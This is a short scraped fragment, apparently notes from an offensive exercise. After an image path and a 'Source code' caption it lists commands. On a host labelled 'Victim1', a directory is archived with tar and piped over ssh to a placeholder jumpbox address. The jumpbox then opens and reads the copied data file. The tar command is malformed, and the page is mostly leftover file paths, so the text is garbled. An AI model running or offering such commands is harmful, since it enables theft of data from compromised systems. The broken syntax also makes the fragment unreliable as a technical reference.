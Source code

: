 ## Commands:

#### 1) Victim1: tar cd - dir/ | ssh USER@JUMPBOX_IP

#### 2) Jumpbox: cd /tmp/dir

#### cat data.txt
